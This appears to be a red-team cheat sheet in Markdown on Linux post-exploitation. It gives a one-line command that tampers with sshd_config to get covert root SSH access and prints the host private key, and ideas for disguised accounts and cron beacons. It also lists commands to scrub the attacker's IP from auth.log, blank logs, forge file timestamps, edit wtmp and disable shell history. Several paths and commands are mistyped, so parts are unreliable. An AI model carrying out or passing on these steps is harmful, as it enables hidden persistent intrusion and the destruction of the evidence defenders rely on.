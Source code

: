 if stealth is needed only edit files in `/dev/shm` as this is in memory and no logs will be created
# Persistence
## SSH Keys
* Logs will be left in `/var/log/auth.log` and wherever they are forwarded. 
* Also requires a SSH serer on
### Add SSH key without editing timestamp
**Requires root**
1. Copies timestamp of `sshd-config` to `/dev/shm/.f`
2. Adds the root ssh key to the Auth Keys file. 
3. Restarts ssh daemon
4. Reverts the timestamp
5. Removes `/dev/shm/.f`
6. Cats the root ssh key to copy 

Copy the timestamp of the ssh_configs timestamp 
```shell
touch -r /etc/ssh/sshd_config /dev/shm/.f; sed -i -e '/^#AuthorizedKeysFile/ s/^#//' -e '/^AuthorizedKeysFile/ s/$/ \/etc\/ssh\/sshd_config/' /etc/ssh/sshd_config; systemctl reload sshd; touch -r /dev/shm/.f /etc/ssh/sshd_config; rm /dev/shm.f; cat /etc/ssh/ssh_host_rsa_key
```
Copy the ssh key to local machine
```shell
chmod 600 <file>
```
```shell
ssh -i key root@<IP>
```
## Account Creation
* Make a entirely new user account. 
* Done with the `useradd` command and add to sudo group with `usermod` then use the `passwd` command. 
* Leaves clear logs on `/etc/passwd` and `/etc/shadow`
* Make an account that blends in as a service or a genuine user. 
## Cron Jobs
* Schedule malicious code to run periodically
* New connection established if lost after a certain amount of time
* Highly sophisticated beacons/ implants can obfuscate by connecting at random intervals
* These are very obvious and as such code should be place in application scheduled for tasks. 

# Logs
### Removing our IP from access logs:
```
sed -i "/<ip>/d" /var/log/auth.log`
```
Logs are stored in `/var/logs`
### Most common logs
```
/var/log/messages
/var/log/syslogs
/var/log/auth.log
/var/log/secure
/var/log/kern
/var/log/cron
/var/log/apache2/
/var/log/mysql/
```

### Clearing up 
```shell
touch -a <YYYYMMDDHHMM> file
```
```shell
touch -m <YYYYMMDDHHMM> file
```
```shell
touch -r <file1> <file2>
```
```shell
nano /var/log/systemd
```
```shell
echo "" >  /var/log.auth.log
```
Clear UTMP/WTMP Files
```shell
utmpdump /var/log/wtmp > /tmp/wtmp.log
```
Remove offending logs
```shell
nano /tmpwtmp.log
```
Replace binary log without file
```shell
utmp -r </tmp/wtmp.log > var/log/wtmp
```
### Initial Actions
Disable .bash_history
```shell
unset HISTFILE
```
#### Transfer files to 
```
/tmp/
/dev/shm
```
